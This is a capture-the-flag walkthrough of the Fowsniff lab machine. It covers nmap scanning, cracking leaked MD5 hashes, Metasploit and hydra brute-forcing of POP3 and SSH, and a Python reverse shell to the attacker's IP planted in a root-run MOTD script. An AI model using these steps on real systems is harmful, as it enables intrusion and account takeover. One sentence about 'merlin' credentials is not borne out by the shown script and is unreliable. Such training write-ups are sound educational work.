



# Fowsniff CTF

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Challenge
Difficulty: Easy
OS: Linux
Subscription type: Free
Description: 
Hack this machine and get the flag. There are lots of hints along the way and is perfect for beginners!
```

Room link: [https://tryhackme.com/room/ctf](https://tryhackme.com/room/ctf)

## Solution

This boot2root machine is brilliant for new starters. You will have to enumerate this machine by finding open ports, do some online research (its amazing how much information Google can find for you), decoding hashes, brute forcing a pop3 login and much more!

This will be structured to go through what you need to do, step by step.

Credit to [berzerk0](https://twitter.com/berzerk0) for creating this machine.

### Using nmap, scan this machine. What ports are open?

Hint: nmap -A -p- -sV MACHINE_IP

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Fowsniff_CTF]
└─$ export TARGET_IP=10.10.13.185

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Fowsniff_CTF]
└─$ sudo nmap -sV -sC -p- $TARGET_IP
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-05 14:37 CEST
Nmap scan report for 10.10.13.185
Host is up (0.046s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Fowsniff Corp - Delivering Solutions
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: UIDL TOP USER AUTH-RESP-CODE SASL(PLAIN) CAPA RESP-CODES PIPELINING
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: have IMAP4rev1 more IDLE post-login listed Pre-login LITERAL+ LOGIN-REFERRALS capabilities ID ENABLE OK AUTH=PLAINA0001 SASL-IR
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.03 seconds
```

We have four main services running and available:

- OpenSSH 7.2p2 on port 22
- Apache httpd 2.4.18 on port 80
- Dovecot pop3d on port 110
- Dovecot imapd on port 143

### Using the information from the open ports. Look around. What can you find?

Hints:  
There is a pastebin with all of the company employees emails and hashes.  
If the pastebin is down, check out TheWayBackMachine, or `https://github.com/berzerk0/Fowsniff`

Manually browsing to port 80 shows a web site for the `Fowsniff Corporation`.



Further down on the web page information about a data breach can be found

```text
Fowsniff's internal system suffered a data breach that resulted in the exposure of employee usernames and passwords.

Client information was not affected.

Due to the strong possibility that employee information has been made publicly available, all employees have been 
instructed to change their passwords immediately.

The attackers were also able to hijack our official @fowsniffcorp Twitter account. All of our official tweets have 
been deleted and the attackers may release sensitive information via this medium. We are working to resolve this 
at soon as possible.

We will return to full capacity after a service upgrade.
```

### Using Google, can you find any public information about them?

Searching for information about them turn up a pwned X/Twitter-account



The pastebin-link was removed on August 3, 2024 but a copy of the information can be found [here](https://raw.githubusercontent.com/berzerk0/Fowsniff/refs/heads/main/fowsniff.txt).



### Can you decode these md5 hashes?

Hint: You can even use sites like [hashkiller](https://hashkiller.io/listmanager) to decode them.

The leaked hashes in text format:

```text
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
```

Using [CrackStation](https://crackstation.net/) and [Hashes.com](https://hashes.com/en/decrypt/hash) most of the hashes were cracked

| E-mail | Hash | Hash type | Password |
|----|----|----|----|
|mauer@fowsniff|8a28a94a588a95b80163709ab4313aa4|MD5|mailcall|
|mustikka@fowsniff|ae1644dac5b77c0cf51e0d26ad6d7e56|MD5|bilbo101|
|tegel@fowsniff|1dc352435fecca338acfd4be10984009|MD5|apples01|
|baksteen@fowsniff|19f5af754c31f1e2651edde9250d69bb|MD5|skyler22|
|seina@fowsniff|90dc16d47114aa13671c697fd506cf26|MD5|scoobydoo2|
|stone@fowsniff|a92b8a29ef1183192e3d35187e0cfabd|Unknown|Not found|
|mursten@fowsniff|0e9588cb62f4b6f27e33d449e2ba0b3b|MD5|carp4ever|
|parede@fowsniff|4d6e42f56e127803285a0a7649b5ab11|MD5|orlando12|
|sciana@fowsniff|f7fd98d380735e859f8b2ffbbede5a7e|MD5|07011972|

### Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?

Hint: In metasploit there is a packages called: `auxiliary/scanner/pop3/pop3_login` where you can enter all  
the usernames and passwords you found to brute force this machines pop3 service.

Next, we try to bruteforce POP3 with Metasploit

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Fowsniff_CTF]
└─$ msfconsole -q
msf > search pop3

Matching Modules
================

   #   Name                                                   Disclosure Date  Rank     Check  Description
   -   ----                                                   ---------------  ----     -----  -----------
   0   auxiliary/server/capture/pop3                          .                normal   No     Authentication Capture: POP3
   1   exploit/linux/pop3/cyrus_pop3d_popsubfolders           2006-05-21       normal   No     Cyrus IMAPD pop3d popsubfolders USER Buffer Overflow
   2   auxiliary/scanner/pop3/pop3_version                    .                normal   No     POP3 Banner Grabber
   3   auxiliary/scanner/pop3/pop3_login                      .                normal   No     POP3 Login Utility
   4   exploit/windows/pop3/seattlelab_pass                   2003-05-07       great    No     Seattle Lab Mail 5.5 POP3 Buffer Overflow
   5   post/windows/gather/credentials/outlook                .                normal   No     Windows Gather Microsoft Outlook Saved Password Extraction
   6   exploit/windows/smtp/ypops_overflow1                   2004-09-27       average  Yes    YPOPS 0.6 Buffer Overflow
   7     \_ target: Automatic                                 .                .        .      .
   8     \_ target: Windows 2000 SP0 Italian                  .                .        .      .
   9     \_ target: Windows 2000 Advanced Server Italian SP4  .                .        .      .
   10    \_ target: Windows 2000 Advanced Server SP3 English  .                .        .      .
   11    \_ target: Windows 2000 SP0 English                  .                .        .      .
   12    \_ target: Windows 2000 SP1 English                  .                .        .      .
   13    \_ target: Windows 2000 SP2 English                  .                .        .      .
   14    \_ target: Windows 2000 SP3 English                  .                .        .      .
   15    \_ target: Windows 2000 SP4 English                  .                .        .      .
   16    \_ target: Windows XP SP0-SP1 English                .                .        .      .
   17    \_ target: Windows XP SP2 English                    .                .        .      .
   18    \_ target: Windows 2003 SP0 English                  .                .        .      .
   19    \_ target: Windows 2003 SP1 English                  .                .        .      .


Interact with a module by name or index. For example info 19, use 19 or use exploit/windows/smtp/ypops_overflow1
After interacting with a module you can manually set a TARGET with set TARGET 'Windows 2003 SP1 English'

msf > use 3
msf auxiliary(scanner/pop3/pop3_login) > show options

Module options (auxiliary/scanner/pop3/pop3_login):

   Name              Current Setting                                       Required  Description
   ----              ---------------                                       --------  -----------
   ANONYMOUS_LOGIN   false                                                 yes       Attempt to login with a blank username and password
   BLANK_PASSWORDS   false                                                 no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                     yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                 no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                 no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                 no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                                  no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                                                                no        A specific password to authenticate with
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/unix_  no        The file that contains a list of probable passwords.
                     passwords.txt
   RHOSTS                                                                  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit
                                                                                     .html
   RPORT             110                                                   yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                                 yes       Stop guessing when a credential works for a host
   THREADS           1                                                     yes       The number of concurrent threads (max one per host)
   USERNAME                                                                no        A specific username to authenticate as
   USERPASS_FILE                                                           no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                 no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/unix_  no        The file that contains a list of probable users accounts.
                     users.txt
   VERBOSE           true                                                  yes       Whether to print output for all attempts


View the full module info with the info, or info -d command.

msf auxiliary(scanner/pop3/pop3_login) > 
```

The Metasploit module either takes a one file with passwords and one with usernames or a combined file.  
Let's go for the combined file since we know the user and password combinations.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Fowsniff_CTF]
└─$ vi users_with_pass.txt 

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Fowsniff_CTF]
└─$ cat users_with_pass.txt 
mauer mailcall
mustikka bilbo101
tegel apples01
baksteen skyler22
seina scoobydoo2
mursten carp4ever
parede orlando12
sciana 07011972
```

Note that the users were added without the domain (`@fowsniff`)

Back in Metasploit we set the options needed

```bash
msf auxiliary(scanner/pop3/pop3_login) > set RHOSTS 10.10.13.185
RHOSTS => 10.10.13.185
msf auxiliary(scanner/pop3/pop3_login) > set PASS_FILE ''
PASS_FILE => 
msf auxiliary(scanner/pop3/pop3_login) > set USER_FILE ''
USER_FILE => 
msf auxiliary(scanner/pop3/pop3_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf auxiliary(scanner/pop3/pop3_login) > set USERPASS_FILE users_with_pass.txt
USERPASS_FILE => users_with_pass.txt
msf auxiliary(scanner/pop3/pop3_login) > 
```

Note that you need to set both `USER_FILE` and `PASS_FILE` to blank values for the module to use the combined file!

And start the bruteforce attack

```bash
msf auxiliary(scanner/pop3/pop3_login) > run
[-] 10.10.13.185:110      - 10.10.13.185:110 - Failed: 'mauer:mailcall', '-ERR [AUTH] Authentication failed.'
[-] 10.10.13.185:110      - 10.10.13.185:110 - Failed: 'mustikka:bilbo101', '-ERR [AUTH] Authentication failed.'
[-] 10.10.13.185:110      - 10.10.13.185:110 - Failed: 'tegel:apples01', '-ERR [AUTH] Authentication failed.'
[-] 10.10.13.185:110      - 10.10.13.185:110 - Failed: 'baksteen:skyler22', ''
[+] 10.10.13.185:110      - 10.10.13.185:110 - Success: 'seina:scoobydoo2' '+OK Logged in.  '
[*] 10.10.13.185:110      - Scanned 1 of 1 hosts (100% complete)
[-] Auxiliary failed: NoMethodError undefined method `name' for an instance of String
[-] Call stack:
[-]   /usr/share/metasploit-framework/lib/msf/core/module/failure.rb:56:in `report_failure'
msf auxiliary(scanner/pop3/pop3_login) > exit
```

So we are able to login as `seina` with the password `scoobydoo2`.

### Can you connect to the pop3 service with her credentials? What email information can you gather?

Hint: Use netcat with the port 110 to view her emails.

Now we manually connedct to the POP3 service with netcat

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Fowsniff_CTF]
└─$ nc $TARGET_IP 110
+OK Welcome to the Fowsniff Corporate Mail Server!
user seina
+OK
pass scoobydoo2
+OK Logged in.
list
+OK 2 messages:
1 1622
2 1280
.
retr 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via 
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.

Thanks,
A.J Stone


.
retr 2
+OK 1280 octets
Return-Path: <baksteen@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1004)
        id 101CA1AC2; Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
To: seina@fowsniff
Subject: You missed out!
Message-Id: <20180313185405.101CA1AC2@fowsniff>
Date: Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
From: baksteen@fowsniff

Devin,

You should have seen the brass lay into AJ today!
We are going to be talking about this one for a looooong time hahaha.
Who knew the regional manager had been in the navy? She was swearing like a sailor!

I don't know what kind of pneumonia or something you brought back with
you from your camping trip, but I think I'm coming down with it myself.
How long have you been gone - a week?
Next time you're going to get sick and miss the managerial blowout of the century,
at least keep it to yourself!

I'm going to head home early and eat some chicken soup. 
I think I just got an email from Stone, too, but it's probably just some
"Let me explain the tone of my meeting with management" face-saving mail.
I'll read it when I get back.

Feel better,

Skyler

PS: Make sure you change your email password. 
AJ had been telling us to do that right before Captain Profanity showed up.

.
quit
+OK Logging out.
```

### Looking through her emails, what was a temporary password set for her?

Looking through the first e-mail we find

```text
<---snip--->
The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.
<---snip--->
```

So we have a new temporary SSH-password `S1ck3nBluff+secureshell`.

And since Skyler/baksteen isn't feeling well he might not have changed the password.

### Bruteforce the SSH login

Let's just run all users with the new temporary password in `hydra` just in case

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Fowsniff_CTF]
└─$ hydra -L users.txt -p 'S1ck3nBluff+secureshell' $TARGET_IP ssh 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-05 16:49:11
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:9/p:1), ~1 try per task
[DATA] attacking ssh://10.10.13.185:22/
[22][ssh] host: 10.10.13.185   login: baksteen   password: S1ck3nBluff+secureshell
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-05 16:49:14
```

Yes, our assumption were correct!

### Login with SSH as baksteen

Next, we connect with SSH as baksteen

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Fowsniff_CTF]
└─$ ssh baksteen@$TARGET_IP         
The authenticity of host '10.10.13.185 (10.10.13.185)' can't be established.
ED25519 key fingerprint is SHA256:KZLP3ydGPtqtxnZ11SUpIwqMdeOUzGWHV+c3FqcKYg0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.13.185' (ED25519) to the list of known hosts.
baksteen@10.10.13.185's password: 

                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions


   ****  Welcome to the Fowsniff Corporate Server! **** 

              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
 * Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.


Last login: Tue Mar 13 16:55:40 2018 from 192.168.7.36
baksteen@fowsniff:~$ 
```

### Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?

Now we check what groups we belong to

```bash
baksteen@fowsniff:~$ id
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
baksteen@fowsniff:~$ groups
users baksteen
baksteen@fowsniff:~$ 
```

And search for executable files that this group can run

```bash
baksteen@fowsniff:~$ find / -type f -group users -executable 2>/dev/null
/opt/cube/cube.sh
baksteen@fowsniff:~$ ls -l /opt/cube/cube.sh
-rw-rwxr-- 1 parede users 851 Mar 11  2018 /opt/cube/cube.sh
baksteen@fowsniff:~$ cat /opt/cube/cube.sh
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"
```

We get another set of credentials (`merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`)

### Create a reverse shell

We update the script to be a reverse shell

```bash
baksteen@fowsniff:~$ vi /opt/cube/cube.sh
baksteen@fowsniff:~$ cat /opt/cube/cube.sh
#!/bin/sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.61.233",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
baksteen@fowsniff:~$ 
```

Hint: If you have not found out already, this file is run as root when a user connects to the machine using SSH. We know this as when we first connect we can see we get given a banner (with fowsniff corp). Look in **/etc/update-motd.d/** file. If (after we have put our reverse shell in the cube file) we then include this file in the motd.d file, it will run as root and we will get a reverse shell as root!

```bash
baksteen@fowsniff:~$ ls -la /etc/update-motd.d/
total 24
drwxr-xr-x  2 root root 4096 Mar 11  2018 .
drwxr-xr-x 87 root root 4096 Dec  9  2018 ..
-rwxr-xr-x  1 root root 1248 Mar 11  2018 00-header
-rwxr-xr-x  1 root root 1473 Mar  9  2018 10-help-text
-rwxr-xr-x  1 root root  299 Jul 22  2016 91-release-upgrade
-rwxr-xr-x  1 root root  604 Nov  5  2017 99-esm
baksteen@fowsniff:~$ cat /etc/update-motd.d/00-header 
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

#[ -r /etc/lsb-release ] && . /etc/lsb-release

#if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
#       # Fall back to using the very slow lsb_release utility
#       DISTRIB_DESCRIPTION=$(lsb_release -s -d)
#fi

#printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"

sh /opt/cube/cube.sh
baksteen@fowsniff:~$ 
```

### Start a netcat listener

Now we start a netcat listener on port 1234

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Fowsniff_CTF]
└─$ nc -lvnp 1234 
listening on [any] 1234 ...

```

### Re-login to the SSH service. You will then receive a reverse shell on your netcat session as root

And relogin to the SSH-service

```bash
baksteen@fowsniff:~$ exit
logout
Connection to 10.10.13.185 closed.

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Fowsniff_CTF]
└─$ ssh baksteen@$TARGET_IP
baksteen@10.10.13.185's password: 

```

Checking our netcat listener we have a connection as root

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Fowsniff_CTF]
└─$ nc -lvnp 1234 
listening on [any] 1234 ...
connect to [10.14.61.233] from (UNKNOWN) [10.10.13.185] 60898
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

### Get the root flag

Finally, we get the root flag

```bash
# ls -l /root
total 8
drwx------ 5 root root 4096 Mar  9  2018 Maildir
-rw-r--r-- 1 root root  582 Mar  9  2018 flag.txt
# cat /root/flag.txt
   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
  |
  |
  |
  |
 ---

Nice work!

This CTF was built with love in every byte by @berzerk0 on Twitter.

Special thanks to psf, @nbulischeck and the whole Fofao Team.

# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [Hydra - GitHub](https://github.com/vanhauser-thc/thc-hydra)
- [Hydra - Kali Tools](https://www.kali.org/tools/hydra/)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [Internet Message Access Protocol - Wikipedia](https://en.wikipedia.org/wiki/Internet_Message_Access_Protocol)
- [MD5 - Wikipedia](https://en.wikipedia.org/wiki/MD5)
- [Metasploit - Documentation](https://docs.metasploit.com/)
- [Metasploit - Homepage](https://www.metasploit.com/)
- [Metasploit-Framework - Kali Tools](https://www.kali.org/tools/metasploit-framework/)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [Post Office Protocol - Wikipedia](https://en.wikipedia.org/wiki/Post_Office_Protocol)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
